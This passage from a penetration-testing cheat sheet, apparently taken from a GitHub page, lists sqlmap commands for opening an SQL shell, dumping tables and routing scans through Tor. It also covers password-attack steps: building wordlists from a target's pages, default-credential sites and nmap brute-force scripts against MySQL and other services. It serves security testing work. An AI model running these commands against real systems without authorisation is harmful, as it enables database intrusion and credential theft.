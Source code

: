  Get SQL shell  
 sqlmap --dbms=mysql -u "$URL" --sql-shell  
 SQL query  
 sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT \*
 FROM $TABLE;"  
 Use Tor Socks5 proxy  
 sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL"
 --dbs

-   Password Attacks
    --------------------------------------------------------------------------------------------------------------

    -   AES Decryption  
        http://aesencryption.net/

    -   Convert multiple webpages into a word list  
        for x in 'index' 'about' 'post' 'contact' ; do curl
        http://$ip/$x.html | html2markdown | tr -s ' ' '\\n' &gt;&gt;
        webapp.txt ; done

    -   Or convert html to word list dict  
        html2dic index.html.out | sort -u &gt; index-html.dict

    -   Default Usernames and Passwords

        -   CIRT  
            [*http://www.cirt.net/passwords*](http://www.cirt.net/passwords)

        -   Government Security - Default Logins and Passwords for
            Networked Devices

        -   [*http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php*](http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php)

        -   Virus.org  
            [*http://www.virus.org/default-password/*](http://www.virus.org/default-password/)

        -   Default Password  
            [*http://www.defaultpassword.com/*](http://www.defaultpassword.com/)

    -   Brute Force

        -   Nmap Brute forcing Scripts  
            [*https://nmap.org/nsedoc/categories/brute.html*](https://nmap.org/nsedoc/categories/brute.html)

        -   Nmap Generic auto detect brute force attack  
            nmap --script brute -Pn &lt;target.com or ip&gt;
            &lt;enter&gt;

        -   MySQL nmap brute force attack  
            nmap --script=mysql-brute $ip

    -   Dictionary Files

        -   Word lists on Kali  
            cd /usr/share/wordlists

    -   Key-space Brute Force
